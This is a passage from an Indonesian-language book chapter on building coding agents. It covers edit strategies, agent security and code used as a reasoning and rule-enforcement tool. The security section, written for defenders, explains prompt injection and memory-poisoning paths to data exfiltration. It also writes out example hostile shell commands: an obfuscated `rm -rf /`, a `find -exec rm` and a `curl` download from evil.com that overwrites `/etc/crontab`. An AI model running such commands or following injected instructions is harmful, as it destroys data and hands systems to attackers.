**Saran Praktis.** Coding Agent arus utama terbagi ke dalam dua kubu, masing-masing dengan produk andalannya: Claude Code mengambil "string lama ke string baru"—mengutamakan keandalan, mudah diimplementasikan, tidak memerlukan model tambahan; Cursor telah mendorong rute Apply Model ke batas maksimalnya—membayar untuk pelatihan dan inferensi dari model fast-apply khusus sebagai ganti throughput pengeditan yang lebih tinggi. Jika Anda membangun Agent Anda sendiri, "string lama ke string baru" adalah titik awal yang paling aman; untuk pengeditan berskala besar, "pencocokan awal + akhir string" adalah kompromi yang lebih ekonomis; pendekatan nomor baris hanya dapat diandalkan dengan integrasi IDE yang mendalam (di mana editor memelihara pemetaan nomor baris secara langsung dan menyuplainya kembali ke model setelah setiap pengeditan)—jika tidak, pergeseran nomor baris akan menggagalkannya.

### Keamanan untuk Coding Agent

Bagian ini menyusun pertahanan Coding Agent ke dalam sebuah kerangka kerja yang koheren: pertama-tama kami menguraikan **model ancaman (threat model)**—risiko mana yang paling mematikan; kemudian **isolasi sebagai jaring pengaman (safety net)**—network egress, file system, dan batas sumber daya di dalam sandbox; kemudian **pertahanan waktu-eksekusi (execution-time defense)**—semantic parsing untuk perintah-perintah, dan eksekusi spekulatif yang membuat pemeriksaan keamanan menjadi "tak terlihat"; dan terakhir **kepercayaan dan loyalitas (trust and loyalty)**—siapa yang dilayani oleh Agent di bawah delegasi multi-pihak, dan bagaimana memindahkan batas kepercayaan (trust boundary) turun ke lapisan data ketika kode yang ditulis AI itu sendiri tidak dapat dipercaya. Diskusi mengenai model ancaman, loyalitas, dan batas kepercayaan berlaku untuk semua Agent; sandboxing dan command parsing dikhususkan untuk Coding Agent.

Paradigma "sovereign Agent" (Agent berdaulat) ini juga memunculkan tantangan keamanan yang parah. Sebuah Coding Agent memiliki izin untuk membaca dan menulis file, mengeksekusi perintah, dan mengakses jaringan, artinya setelah disuntikkan dengan instruksi berbahaya (malicious), ia dapat menyebabkan kerusakan yang tidak dapat diubah (irreversible). Developer dan peneliti independen Simon Willison merangkum risiko ini dengan "Lethal Triad" miliknya yang terkenal—ketika ketiga elemen tersebut hadir, mereka membentuk sebuah loop serangan yang lengkap, menempatkan sistem pada risiko tinggi:

1.  **Akses ke Data Pribadi (Access to Private Data)** — Agent dapat membaca file pengguna dan password manager.
2.  **Paparan ke Konten yang Tidak Dipercaya (Exposure to Untrusted Content)** — Email dan halaman web yang diproses dapat mengandung payload berbahaya.
3.  **Kemampuan untuk Berkomunikasi Secara Eksternal (Ability to Communicate Externally)** — Ia dapat mengirim email dan mengeksekusi perintah.

Hal ini menutup loop serangan: instruksi berbahaya yang tersembunyi dalam konten yang tidak dipercaya memasuki Agent, mendorongnya untuk membaca data pribadi, dan kemudian mengeksfiltrasikannya (exfiltrate) melalui saluran eksternal. Perhatikan bahwa kehadiran ketiga elemen tersebut sudah cukup berbahaya dengan sendirinya, tanpa kondisi tambahan apa pun. Berdasarkan hal ini, penulis menambahkan dimensi keempat—**Persistent Memory**. Ini bukan prasyarat paralel keempat, melainkan penguat serangan: seorang penyerang dapat menulis bias yang tampaknya tidak berbahaya atau instruksi berbahaya ke dalam memori jangka panjang Agent, di mana mereka tertidur melintasi sesi-sesi dan terpicu pada saat yang tepat — mengubah serangan satu kali menjadi ancaman yang mengintai dan semakin berlipat ganda seiring berjalannya waktu.

Keempat poin ini dapat diringkas sebagai empat jenis batas: batas data (data boundary), batas kepercayaan masukan (input trust boundary), batas dampak keluaran (output impact boundary), dan batas lintas-sesi (cross-session boundary). Sebuah Agent lokal dengan izin penuh (full-permission) seperti OpenClaw mencakup keempat dimensi risiko tersebut, menjadikan perlindungan keamanan sebagai tantangan inti yang harus dihadapi oleh Agent semacam itu.

Hal ini juga menjelaskan mengapa komersial Agent bersumber tertutup (seperti Claude Cowork (Agent serbaguna Anthropic untuk pekerjaan pengetahuan, menggunakan kembali arsitektur agen dari Claude Code, yang mampu membaca dan menulis file lokal serta menyelesaikan tugas multi-langkah di berbagai aplikasi kantor)) telah memilih strategi perizinan yang konservatif. Menghadapi prompt injection, penyaringan input saja hampir tidak membantu. Tujuannya bukanlah untuk mengenali setiap serangan, melainkan untuk memastikan bahwa Agent yang disuntik tidak pernah mendapat kesempatan untuk melakukan tindakan berbahaya. Di sinilah tiga lapis guardrail dari Bab 1 berperan. Dibandingkan Agent lain, Coding Agent perlu memberi perhatian khusus pada:

- **Command Semantic Parsing** — Ledakan kombinatorial perintah Shell membuat daftar hitam kata kunci menjadi tidak berguna; efek nyata dari sebuah perintah harus dipahami pada tingkat semantik (diperluas nanti di bagian ini);
- **Sandbox Isolation and Network Egress Control** — Eksekusi kode adalah permukaan serangan yang unik untuk Coding Agent; pilihan rekayasa untuk tingkat isolasi dan strategi trafik keluar (egress) dibahas lebih lanjut di bagian ini;
- **Cross-Session Defense for Persistent Memory** — Bab ini memperluas analisis Lethal Triad ke memori persisten: konten yang ditulis ke memori jangka panjang harus menjalani ulasan kepercayaan yang sama dengan input eksternal sehingga instruksi berbahaya tidak dapat terbengkalai di `MEMORY.md` dan berlaku kemudian.

Ketiga perlindungan ini masing-masing masuk ke dalam lapisan verifikasi, eksekusi, dan data, melengkapi sistem pertahanan dari dua bab sebelumnya. Strategi-strategi ini tidak dapat sepenuhnya menghilangkan risiko, tetapi dapat mengurangi permukaan serangan Agent.

**Isolasi sebagai Jaring Pengaman: Pilihan Rekayasa untuk Sandbox Eksekusi Kode.**

- **Network Egress Control.** Ini adalah item yang paling mudah diabaikan dan paling kritis: tidak ada jaringan secara default, dengan akses diberikan sesuai permintaan melalui proxy whitelist ke sejumlah tujuan terbatas (sumber paket, situs dokumentasi, API yang secara eksplisit dibutuhkan oleh tugas). Melihat kembali item ke-3 dari Lethal Triad—"Kemampuan untuk Berkomunikasi Secara Eksternal"—kontrol trafik keluar (egress) adalah pertahanan lapisan eksekusinya: bahkan jika prompt injection berhasil dan kode berbahaya membaca data sensitif di dalam sandbox, tanpa jalur pengeluaran (egress), data tidak dapat ditransmisikan. Dibandingkan dengan mencoba mengidentifikasi setiap injeksi, memotong saluran eksfiltrasi data adalah garis pertahanan yang jauh lebih deterministik.
- **Lingkup Isolasi Sistem File.** Mount direktori kode sumber sebagai read-only (Agent memodifikasi kode melalui alat pengeditan, dan patch yang dihasilkan ditinjau sebelum ditulis ke disk, atau salinannya dimuat ke dalam workspace yang dapat ditulis); direktori workspace terpisah yang dapat ditulis menyimpan artefak yang dihasilkan dan file sementara; file kredensial (`~/.ssh`, kunci, token) sama sekali tidak dimuat ke dalam sandbox—data yang tidak terlihat tidak dapat dibocorkan, sesuai dengan item 1 dari Lethal Triad.
- **Batas Sumber Daya dan Timeout.** Tetapkan kuota untuk CPU, memori, dan disk, ditambah timeout berbasis waktu nyata (wall-clock), untuk bertahan dari loop tak terbatas, fork bombs (proses yang dengan cepat mereplikasi dirinya sendiri hingga sistem crash), dan penulisan disk tanpa batas. Detail praktis: timeout dan pelanggaran batas harus mengembalikan kesalahan terstruktur ke Agent ("Eksekusi dihentikan setelah 120 detik, output terakhir adalah...") alih-alih menghentikan proses secara diam-diam, memberikan kesempatan kepada Agent untuk merevisi strateginya pada giliran berikutnya.
- **Mendamaikan Sesi Persisten dan Isolasi.** Bagian selanjutnya "Persistensi Status dalam Lingkungan Eksekusi Perintah" menganjurkan untuk memelihara sesi terminal yang berumur panjang, sementara prinsip isolasi menganjurkan untuk lingkungan yang sekali pakai—ada ketegangan di antara keduanya. Pendekatan rekonsiliasinya adalah **menjaga sesi tetap hidup hanya di dalam sandbox**: sesi terminal tidak boleh hidup lebih lama dari sandbox, dan status sesi tidak boleh keluar ke mesin host. Untuk skenario yang membutuhkan pemulihan melintasi interval waktu yang lama (seperti arsitektur Sessionless yang disebutkan sebelumnya), andalkan snapshot sandbox atau "persistensi file workspace + rekonstruksi lingkungan melalui skrip" untuk memulihkan status, alih-alih memperpanjang masa pakai sandbox tanpa batas. Dengan kata lain, apa yang dipertahankan adalah **deskripsi status yang dapat diaudit** (file, skrip, manifes), bukan proses berjalan yang buram (opaque).

**Keamanan: Semantic Parsing di atas Daftar Hitam Kata Kunci.**

Bab 1 berpendapat bahwa lapisan verifikasi harus bergantung pada pemahaman semantik daripada pencocokan pola. Validasi keamanan perintah Shell adalah aplikasi yang paling menantang dari prinsip ini. Daftar hitam kata kunci sederhana tidak dapat mengatasi ledakan kombinatorial dari Shell—perintah dapat melewati aturan statis apa pun melalui pipes, subshells, variable expansion, dll. (misalnya, jika `rm` diblokir, penyerang dapat menggunakan `$(echo rm) -rf /` untuk melewatinya). Harness tingkat produksi menggunakan semantic parsing: mengidentifikasi jenis argumen dari setiap perintah dan aturan parsing, termasuk flag mana yang menggunakan argumen berikutnya, dan mengenali pola serangan seperti flag yang tampaknya tidak berbahaya namun menyembunyikan payload berbahaya di argumen berikutnya. Sebagai contoh, `find / -name '*.log' -exec rm {} \;` menyematkan operasi penghapusan `rm` melalui argumen perintah `find` yang sah; contoh lain adalah `curl -o /etc/crontab http://evil.com/payload`, yang tampaknya mengunduh file tetapi sebenarnya menimpa tugas terjadwal sistem. Semantic parsing dapat mengidentifikasi operasi berbahaya yang bersarang ini, sementara daftar hitam perintah sederhana tidak dapat menangkapnya. Mekanisme keamanan yang didasarkan pada pemahaman alih-alih pencocokan ini adalah implementasi tingkat tinggi dari fungsi "kendala".

**Speculative Execution: Membuat Pemeriksaan Keamanan Menjadi "Tidak Terlihat"**. Inilah tepatnya efek dari mekanisme penjagaan Sidecar dari Bab 4 pada tingkat pengalaman pengguna—Bab 4 menjelaskan mengapa operasi kritis harus ditinjau oleh Sidecar yang independen dari konteks utama; bagian ini berfokus pada membuat latensi ulasan tersebut secara efektif tidak terlihat oleh pengguna. Pendekatannya adalah memisahkan kemajuan yang terlihat oleh pengguna dari otorisasi eksekusi: ketika Agent hendak mengeksekusi panggilan alat (tool call), sistem menampilkan petunjuk kemajuan antarmuka (misalnya, "Membaca file `src/main.py`...") sementara pemeriksaan keamanan berjalan di latar belakang. Klarifikasi diperlukan di sini mengenai analogi yang umum digunakan: ini berbeda dari CPU speculative execution—jika CPU salah menebak, ia harus membuang hasil yang dihitung dan memutar kembali (roll back) status; di sini, tindakan pendahuluan hanyalah **petunjuk UI tanpa efek samping (side-effect-free UI hint)**, yang tidak mengubah status nyata apa pun. Jika pemeriksaan gagal, tidak diperlukan roll back; petunjuk tersebut hanya diganti dengan "menunggu konfirmasi." Dalam sebagian besar kasus, pemeriksaan keamanan selesai sebelum pengguna menyadarinya, sehingga pengguna tidak merasakan latensi tambahan; hanya ketika penentuan cepat tidak memungkinkan barulah sistem benar-benar menjeda dan menunggu konfirmasi. Ini adalah puncak desain Harness: keamanan tanpa mengorbankan pengalaman pengguna.

**Siapa yang Dilayani Agent: Loyalitas di Bawah Delegasi Multi-Pihak.**

Mekanisme keamanan di atas mencegah "perintah dieksekusi secara berbahaya"; ada masalah keamanan yang lebih halus—**loyalitas prinsipal**: **di pihak siapa Agent sebenarnya berada**. Model dilatih dengan prinsip default yang naif—"siapa pun yang berbicara dengan saya, saya akan mencoba yang terbaik untuk membantunya"—tetapi Agent di dunia nyata sering kali beroperasi di bawah **delegasi multi-pihak (multi-party delegation)**: bertindak atas nama prinsipal (pihak utama) saat berhadapan dengan pihak ketiga yang kepentingannya bertentangan. Sebuah Agent yang menegosiasikan harga atas nama Anda tidak menghadapi "pengguna yang membutuhkan bantuan" melainkan **lawan negosiasi**. Di sini, "bantu siapa pun yang berbicara" adalah default yang berbahaya—pihak lawan dapat mulai memengaruhi Agent Anda hanya dengan berinteraksi dengannya.

Menempatkan model terdepan (frontier models) ke dalam situasi ini mengungkapkan **spektrum loyalitas** yang jelas, dengan kedua ujungnya gagal[^ch5-1]: di satu ujung, **terlalu jujur**—menyerahkan informasi pribadi prinsipal (misalnya, "garis bawah kita adalah 12.000") langsung ke lawan, dan menyerah setelah beberapa putaran tekanan; di ujung lain, **terlalu curiga**—menolak bahkan permintaan sah prinsipal, dan dengan demikian menggagalkan tugas. Bagian tersulitnya adalah bahwa kedua kegagalan tersebut merupakan sebuah trade-off: tutup kebocorannya dan Anda akan meluncur ke arah penolakan yang berlebihan—sulit untuk memiliki keduanya.

Hal ini sangat relevan dengan Coding Agent: konten yang tidak tepercaya yang dibaca dari sebuah repositori, output yang dikembalikan oleh sebuah alat, instruksi yang dikirim oleh MCP server pihak ketiga—semuanya adalah "lawan" yang mencoba membalikkan Agent—**prompt injection pada dasarnya adalah upaya untuk membalikkan** (Bab 2 dan 4). Oleh karena itu, Harness harus secara eksplisit menetapkan kepada siapa Agent tersebut loyal: instruksi dari prinsipal memiliki prioritas tertinggi, sementara segala sesuatu dari pihak eksternal diturunkan tingkatannya secara default menjadi "data yang dapat dikonsultasikan tetapi tidak membawa kekuatan instruksi." Dalam system prompt, **kode etik loyalitas** yang efektif adalah: lindungi informasi pribadi prinsipal, termasuk fakta bahwa informasi tersebut ada; saat menolak, jangan menyebutkan rincian yang dilindungi, karena melakukan hal itu dapat membocorkannya; garis bawah pribadi bukanlah posisi publik; hanya laksanakan instruksi prinsipal yang jelas dan spesifik; tahan terhadap tekanan yang berulang-ulang. Pada intinya, ini menggunakan Harness untuk memberikan model suatu sikap yang kurang dimilikinya secara default: **loyalitas mutlak kepada prinsipal, dan kehati-hatian terhadap pihak eksternal**.

[^ch5-1]: Evaluasi lengkap dari spektrum loyalitas dan kode etik ini dapat ditemukan di Li, Bojie dan Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

**Ketika Kode yang Ditulis AI Itu Sendiri Tidak Tepercaya: Memindahkan Batas Kepercayaan ke Bawah.**

Kode loyalitas di atas membuat Agent **lebih mungkin** untuk mengikuti aturan, tetapi untuk operasi data berisiko tinggi, "lebih mungkin" tidaklah cukup—kendala harus bergerak dari "berharap Agent akan berperilaku baik" ke bawah menjadi penegakan pada lapisan data (data layer). Sikap yang lebih radikal[^ch5-2] adalah: **perlakukan saja lapisan aplikasi sebagai tidak tepercaya dan dorong penegakan invarian data ke bawahnya**. Selama tiga puluh tahun terakhir, batas integritas perangkat lunak telah berada pada **lapisan aplikasi (application layer)**—kode handler menentukan siapa yang dapat melakukan setiap operasi dan nilai mana yang valid, dan database mempercayai kode tersebut tanpa syarat; tetapi handler yang dihasilkan oleh LLM sering kali menghilangkan pemeriksaan izin dan integritas yang sudah barang tentu disertakan oleh penulis manusia, dan Agent otonom beroperasi langsung pada data produksi, mematahkan premis tersebut. Pendekatan baru (yang dapat disebut Permission-Embedded Data Objects) membuat setiap entitas data membawa aturan izin deklaratif, validator, dan pernyataan konsekuensi dalam **schema yang ditinjau manusia (human-reviewed schema)**, yang ditegakkan oleh pipeline runtime pada **setiap penulisan**. Primitif kuncinya adalah **access context** yang melekat pada setiap operasi: handler yang dibuat ulang berjalan dengan izin dari pengguna yang dilayaninya, sementara Agent otonom berjalan di bawah identitas spesifiknya (scoped principal)—daripada hanya berharap Agent tetap setia, arsitekturnya memperlakukannya sebagai prinsipal yang dibatasi, sehingga bahkan jika dikompromikan, Agent tersebut tidak dapat melampaui izinnya.

Dalam perbandingan yang menggunakan kumpulan prompt yang sama, mekanisme ini menghasilkan **nol penulisan yang melanggar invarian yang dideklarasikan**, sementara SQL mentah, pemeriksaan yang ditulis LLM, constitutional prompt, dan pencegat batas tindakan (action-boundary interceptors) masing-masing meloloskan dari segelintir hingga puluhan pelanggaran. Ini bukan "lebih mungkin benar" melainkan "mustahil salah," dengan biaya sekitar 2 milidetik tambahan per penulisan. Tentu saja, jaminannya bersyarat: schema harus benar-benar menangkap semua invarian yang diinginkan, dan deployment harus memblokir setiap jalur yang memungkinkan lapisan tidak tepercaya melewati penyimpanan dan terhubung langsung ke database. Untuk Coding Agent, hal ini menghasilkan prinsip arsitektur yang penting: **ketika penulis kode dan pengeksekusi kode sama-sama tidak tepercaya, kendala yang benar-benar andal tidak dapat berada dalam kode yang dihasilkan, melainkan harus ditempatkan di fondasi yang ditinjau manusia di bawahnya**—ini adalah bentuk pamungkas dari prinsip "kendala di atas panduan (constraints over guidance)" dari Bab 1, diterapkan pada lapisan data.

[^ch5-2]: Desain dan evaluasi "memindahkan batas kepercayaan ke bawah lapisan aplikasi" ini (termasuk perbandingan lengkap jumlah pelanggaran di berbagai solusi) dapat ditemukan di Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026 (akan datang).

## Kode: Meta-Kapabilitas dari General Agent

Bagian sebelumnya menunjukkan cara membangun Coding Agent yang andal—mulai dari arsitektur ke implementasi alat hingga ke rekayasa pengujian. Tetapi nilai dari pembuatan kode meluas jauh melampaui penulisan program.

> **Apa itu "meta-kapabilitas"?** Kapabilitas biasa adalah kemampuan Agent untuk melakukan suatu hal tertentu—menjawab pertanyaan, memanggil API tertentu, menghasilkan sepotong teks. Sebuah **meta-kapabilitas** adalah kemampuan yang "dapat menciptakan kemampuan lain": Agent menggunakannya untuk menulis alat baru, kendala baru, dan bentuk ekspresi baru secara langsung untuk menyelesaikan tugas, tanpa harus memiliki semua kapabilitas tersebut yang dibangun sebelumnya. Pembuatan kode adalah tepatnya sebuah meta-kapabilitas—ia presisi, dapat dieksekusi, dan dapat disusun (composable), memungkinkannya untuk menghasilkan alat baru (skrip, urutan panggilan API), kendala baru (assertions, aturan validasi), dan bentuk ekspresi baru (formulir HTML, PPT, bingkai video).

Untuk alasan ini, peran yang dimainkan kode dalam sistem Agent melampaui "menulis program." Enam bagian berikutnya mendemonstrasikan, satu per satu, enam arah di mana meta-kapabilitas ini berlaku di luar pemrograman. Keenam arah ini bukan sekadar daftar datar; mereka berkembang dari dalam ke luar, diatur berdasarkan objek di mana meta-kapabilitas itu diterapkan:

1.  **Pemikiran Itu Sendiri**—menggunakan kode untuk menggantikan penalaran bahasa alami yang rentan kesalahan (Thinking Tools);
2.  **Aturan Bisnis**—mengkodekan kebijakan yang samar sebagai kendala yang dapat dieksekusi (Business Rule Constraints);
3.  **Presentasi Konten**—menghasilkan PPT, video, dan artefak visualisasi (Multimedia Generation);
4.  **Antarmuka Sistem**—menjembatani API heterogen dan beradaptasi secara otomatis pada format data yang berkembang (System Adapters);
5.  **Antarmuka Pengguna**—membangun formulir dan antarmuka interaktif secara dinamis (Generative UI);
6.  **Agent Itu Sendiri**—menggunakan kode untuk membuat atau memperbaiki Agent baru, sehingga memungkinkan bootstrapping.

### Kode sebagai Alat Berpikir

LLM sangat luar biasa dalam memahami dan menghasilkan bahasa alami, namun pada dasarnya lemah dalam kalkulasi yang presisi, manipulasi simbolik, dan deduksi logis yang ketat. Alasannya: pemikiran model pada dasarnya bersifat probabilistik dan perkiraan, sementara masalah matematis dan logis menuntut jawaban yang deterministik dan eksak. Sebuah perbandingan konkret memperjelas poin tersebut:

```text
Masalah: "Sebuah kelas memiliki 40 siswa. 60% mengambil matematika, 45% mengambil fisika, dan 25% mengambil keduanya.
          Berapa banyak siswa yang hanya mengambil fisika tetapi tidak mengambil matematika?"

Penalaran Bahasa Alami Murni (rentan kesalahan):        Penalaran Kode (presisi dan dapat diverifikasi):
"60% mengambil matematika = 24 siswa,                   math = int(40 * 0.60)    # 24
 45% mengambil fisika = 18 siswa,                       phys = int(40 * 0.45)    # 18
 25% mengambil keduanya = 10 siswa,                     both = int(40 * 0.25)    # 10
 Hanya fisika = 24 - 10 = 14 siswa"                     only_phys = phys - both  # 8
→ Keliru mengurangi dari jumlah matematika, salah       → print(only_phys)  # 8 ✓
```

Biarkan LLM bertanggung jawab untuk memahami masalah dan menulis kodenya, dan biarkan interpreter kode bertanggung jawab untuk kalkulasi presisi—pembagian kerja ini membiarkan masing-masing memanfaatkan kekuatan masing-masing.

Stephen Wolfram, pencipta Mathematica, menawarkan sebuah wawasan mendalam mengenai hal ini. Sebelum LLM ada, sudah ada sistem yang mampu melakukan komputasi matematis yang presisi—mereka bekerja menggunakan **Komputasi Simbolik** (Symbolic Computation), yaitu memproses ekspresi menggunakan simbol matematika daripada perkiraan nilai numerik. Misalnya, sebuah kalkulator konvensional akan memperkirakan $\sqrt{2}$ sebagai 1.414, sedangkan sistem komputasi simbolik akan mempertahankan bentuk pasti $\sqrt{2}$, dan hanya mengubahnya menjadi desimal jika diperlukan. Wolfram Alpha, yang diciptakan oleh Wolfram, adalah sistem semacam itu: pengguna memasukkan soal matematika, dan sistem mengembalikan jawaban yang pasti. Namun, pemahaman bahasa alaminya cukup rapuh dan cakupannya sempit—sistem ini mengandalkan parser tata bahasa bawaan yang hanya dapat mengenali kumpulan frasa yang terbatas; sedikit perubahan dalam penyusunan frasa dapat menyebabkan kegagalan penguraian, dan hal itu tentu saja tidak dapat menangani penalaran multi-langkah pada domain terbuka. LLM secara sempurna mengisi celah ini—mereka sangat unggul dalam memahami berbagai ekspresi bahasa alami tetapi tidak pandai dalam kalkulasi yang presisi. Model kolaboratif yang baru adalah: biarkan LLM bertanggung jawab untuk memahami pertanyaan bahasa alami pengguna, mengidentifikasi struktur matematis atau logis di dalamnya, dan menerjemahkannya ke dalam bahasa formal (seperti bahasa Mathematica atau pustaka SymPy Python); kemudian serahkan ke mesin komputasi simbolik khusus atau pemecah kendala (constraint solver) untuk dieksekusi guna mendapatkan hasil yang presisi.

> **Eksperimen 5-1 ★★: Menggunakan Alat Pembuatan Kode untuk Meningkatkan Kemampuan Pemecahan Masalah Matematis**
>
> **Tujuan Eksperimen**: Memverifikasi peningkatan akurasi pemikiran matematis Agent saat dibantu oleh Code Interpreter.
>
> **Pendekatan Teknis**: Lengkapi Agent dengan sebuah sandbox Python yang berisi pustaka matematika seperti sympy, numpy, dan scipy. Ketika Agent menjumpai sebuah soal matematika, ia memformalkannya ke dalam kode Python: sympy untuk komputasi simbolik (kalkulus, penyelesaian persamaan), scipy untuk optimisasi numerik, numpy untuk operasi matriks. Kode yang dihasilkan tersebut dieksekusi di dalam sandbox untuk mengembalikan hasil yang presisi.
>
> **Kriteria Penerimaan**: Evaluasi menggunakan masalah bergaya AIME (dimodelkan dari American Invitational Mathematics Examination). Bandingkan akurasi dari penalaran chain-of-thought murni dengan penalaran yang dibantu oleh kode; mode yang dibantu kode harus mencapai akurasi yang jauh lebih tinggi. Periksa apakah kode tersebut menggunakan pustaka matematika dengan benar dan apakah proses penyelesaiannya jelas secara logika.

> **Eksperimen 5-2 ★★: Menggunakan Alat Pembuatan Kode untuk Meningkatkan Kemampuan Penalaran Logis**
>
> **Tujuan Eksperimen**: Menilai kemampuan Agent untuk melakukan penalaran logis dengan bantuan kode pemecahan-kendala (constraint-solving code).
>
> **Pendekatan Teknis**: Lengkapi Agent dengan sebuah Code Interpreter yang berisi pustaka python-constraint. Agent tersebut menerjemahkan teka-teki logika, seperti masalah Kesatria dan Bajingan (Knights and Knaves), ke dalam model kendala formal: ia mengidentifikasi variabel (identitas setiap penduduk pulau), mengkodekan aturan seperti "kesatria selalu berkata jujur" sebagai kendala, dan memanggil solver untuk menemukan penugasan yang memenuhi kriteria (satisfying assignment).

>
> **Kriteria Penerimaan**: Evaluasi menggunakan [dataset K&K Puzzle](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). Mode berbantuan kode harus mencapai akurasi solusi di atas 90%, jauh lebih tinggi daripada mode penalaran murni.
>

Eksperimen ini juga mengungkapkan pola yang lebih umum: *model* dan *harness* saling bertukar peran (*trade-off*). Ketika *model* cukup kuat, *harness* bisa menjadi lebih tipis—*model* menalar dengan benar dengan sendirinya, dan keuntungan dari *code solver* semakin menyempit. Ketika *model* lebih lemah, *harness* harus bekerja ekstra—mengalihkan penalaran logis utama ke *code* dan *constraint solver* untuk menjamin kebenaran. Itulah sebabnya eksperimen ini sengaja menggunakan *model* yang lebih lemah, untuk memperbesar kontras: pada *model* yang lemah, *pure thinking* terus-menerus salah hitung dan bantuan kode secara dramatis meningkatkan akurasi; pada *reasoning model* yang cukup kuat, *pure thinking* sering memecahkan setiap teka-teki, dan keuntungan dari bantuan kode menyatu mendekati nol. Seberapa tebal *harness* yang seharusnya, kemudian, tergantung pada di mana batas kemampuan *model* Anda berada—sebuah premis yang mudah diabaikan ketika mengevaluasi teknik Agent apa pun: *harness* yang sama, dipasangkan dengan *model* dari kekuatan yang berbeda, dapat mendukung kesimpulan yang berlawanan.

### Code sebagai Batasan untuk Aturan Bisnis

Bagian ini merupakan respons langsung terhadap bagian Harness Engineering di awal bab ini. Salah satu prinsip inti dari Harness adalah "Constraints: Encoded, Not Documented" (Batasan: Dikodekan, Bukan Didokumentasikan)—mengubah aturan dari dokumentasi bahasa alami menjadi kode yang dapat dieksekusi, menjadikannya batasan wajib pada perilaku sistem dan bukan sekadar panduan anjuran. Code generation memungkinkan Agent untuk secara otonom menyelesaikan proses transformasi ini.

Aturan bisnis, alur kerja, dan logika keputusan yang dijelaskan hanya dalam bahasa alami penuh dengan ambiguitas. Apa yang dimaksud dengan "permintaan pengembalian dana yang wajar"? Apa yang dihitung sebagai "keadaan darurat"? Batasan-batasan tersebut menolak definisi bahasa alami—"dapat dikembalikan dalam 7 hari setelah pembelian" terdengar jelas, tetapi apakah itu hari kalender atau hari kerja? Apakah "pembelian" berarti penempatan pesanan atau pengiriman? Sebaliknya, *Code* adalah representasi pengetahuan yang tidak ambigu dan dapat dieksekusi—ia berjalan atau mengeluarkan kesalahan (*error*); tidak ada jalan tengah.

**Mengekspresikan Aturan Bisnis Kompleks dengan Tepat.**

**Aturan Bahasa Alami vs. Aturan Terkodifikasi: Saling Melengkapi, Tidak Dapat Dipertukarkan**

Menulis aturan dalam System Prompt memungkinkan *model* untuk **menjelaskan kebijakan** kepada pengguna, **mengidentifikasi alternatif yang sesuai dengan kebijakan** (misalnya, "pesan ulang daripada membatalkan"), dan membuat penilaian kelayakan awal sebelum memanggil sebuah alat (*tool*).

Mengkualifikasikan aturan sebagai alat validasi menawarkan tiga keuntungan: **logika keputusan yang tepat dan tidak ambigu**; **eksekusi deterministik**, sehingga input yang sama selalu menghasilkan output yang sama; dan penanganan efektif terhadap **kombinasi aturan yang kompleks**, seperti logika Boolean multi-kondisi, perhitungan waktu, dan validasi sumber data silang.

Dalam praktiknya, keduanya harus digunakan bersama: System Prompt berisi aturan bahasa alami untuk pemahaman dan komunikasi, sedangkan titik keputusan utama dilengkapi dengan alat validasi terkodifikasi yang bertindak sebagai "penjaga gerbang" (*gatekeeper*) untuk memastikan kepatuhan.

Nilai sesungguhnya dari aturan terkodifikasi bukan pada efisiensi token melainkan **mencegah kesalahan yang tidak dapat diubah**. Membatalkan pesanan, mentransfer dana, atau menghapus data mungkin tidak dapat diurungkan setelah dieksekusi. Validasi terkodifikasi menempatkan garis pertahanan terakhir di depan operasi, dan nilai jaminan tersebut jauh melebihi biaya implementasinya.

**Menggabungkan Validasi dengan Eksekusi: Daftar Periksa Memandu Penalaran; Validasi Ground-Truth Menjaga Gerbang**

Daripada membangun alat validasi yang terpisah, masukkan validasi ke dalam alat eksekusi. Pertimbangkan kebijakan pembatalan maskapai dari τ-bench, sebuah tolak ukur yang dirancang untuk mengevaluasi penggunaan alat dan kepatuhan kebijakan dalam skenario layanan pelanggan maskapai dan *e-commerce* simulasi:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Opsional: untuk pemeriksaan mandiri model; server menggunakan database ground truth untuk verifikasi
    expected_has_insurance: bool = None  # Opsional: untuk pemeriksaan mandiri model; sama seperti di atas
) -> dict:
    """
    Membatalkan reservasi penerbangan.

    Kebijakan pembatalan (diberlakukan di sisi server berdasarkan database ground truth):
    - Aturan 1: Reservasi dengan segmen yang sudah digunakan tidak dapat dibatalkan
    - Aturan 2: Reservasi dapat dibatalkan tanpa syarat dalam waktu 24 jam setelah pemesanan
    - Aturan 3: Penerbangan yang dibatalkan oleh maskapai selalu dapat dibatalkan
    - Aturan 4: Kelas bisnis selalu dapat dibatalkan
    - Aturan 5: Ekonomi dasar dan ekonomi memerlukan asuransi perjalanan agar dapat dibatalkan

    Sebelum memanggil, harap cari detail pesanan dan periksa setiap aturan di atas satu per satu. Parameter expected_*
    mencatat dasar penilaian Anda. Server membandingkannya dengan data otoritatif untuk audit, tetapi hal tersebut
    tidak memengaruhi keputusan kebijakan.
    """
    # Semua fakta kebijakan dibaca dari database; jangan pernah percaya nilai yang dilaporkan oleh model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Jam server, tidak disediakan oleh model

    # Catat peringatan jika nilai yang dilaporkan sendiri oleh model tidak cocok dengan ground truth, untuk mendeteksi keyakinan yang salah atau potensi injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

